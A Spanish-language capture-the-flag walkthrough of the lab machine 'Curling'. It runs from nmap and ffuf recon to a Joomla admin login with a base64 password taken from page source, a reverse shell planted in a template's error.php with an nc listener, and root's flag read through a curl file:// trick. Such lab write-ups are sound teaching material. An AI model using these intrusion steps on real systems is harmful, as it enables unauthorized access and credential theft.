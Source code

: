 ```yaml
---
description: '✍️ Autor: l4mje🔍 Dificultad: Fácil 📅 Fecha de creación: 08/05/2019'
---
```


# Curling

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.150
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.150
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 22 (SSH):** El puerto 22 está abierto y ejecutando OpenSSH 7.6p1 en un sistema Ubuntu Linux. Se han detectado las claves del host en los algoritmos RSA, ECDSA y ED25519, lo que indica que el sistema permite conexiones seguras mediante SSH.
* **Puerto 80 (HTTP):** El puerto 80 se encuentra abierto y ejecuta un servidor web Apache 2.4.29 en Ubuntu. Se ha detectado que el sitio utiliza Joomla! como sistema de gestión de contenidos (CMS), lo que podría ser un posible vector de ataque si existen vulnerabilidades conocidas en la versión instalada.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 10.10.10.150
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que hay dos usuarios posibles **Super User** y **Floris**. Revisando el código fuente encontramos una línea comentada.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisando el directorio nos encontramos una contraseña puede ser codificada en **base64**.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
echo "Q3VybGluZzIwMTgh" | base64 --decode
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Escaneo para ver los directorios.

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.10.10.150/FUZZ
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que hay un directorio que nos llama la atención llamado `/administrator`.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con las credenciales obtenidas anteriormente.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

{% embed url="https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/joomla.html" %}

<figure><img src="../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

En **error.php** subimos una Reverse Shell. Nos ponemos en escucha.

```
http://10.10.10.150/templates/protostar/error.php
nc -nlvp 4444
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

Mejoramos la TTY.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

No tenemos permiso para leer la flag del user. Puedo acceder al archivo `password_backup`, que parece un archivo de volcado en formato hexadecimal. El tipo de archivo es ASCII.

<figure><img src="../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

Usando CyberChef, podemos cargar el archivo `password_backup` para procesarlo (para procesar el volcado hexadecimal, haz clic en la varita mágica junto a 'output').

<figure><img src="../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahí está la contraseña por lo que iniciamos sesión.

```
ssh floris@10.10.10.151
```

<figure><img src="../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos SUDO.

Descubrimos un proceso automatizado en el directorio `admin-area` que recupera datos desde una URL especificada en un archivo de entrada y almacena la salida en un archivo de reporte. Sospechamos que este proceso es ejecutado por un script que utiliza el comando `curl`, y dado que los archivos son propiedad de `root`, planteamos la posibilidad de acceder a archivos restringidos.

Tras investigar un poco, nuestra siguiente estrategia será modificar la ruta `file:///<path>/`. Primero, editaremos el archivo de entrada para que ejecute un archivo local y permitiremos que `curl` lo procese.

```bash
echo 'url = "file:///root/root.txt"' > input
cat report
```

Ya leemos así la flag.

<figure><img src="../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>
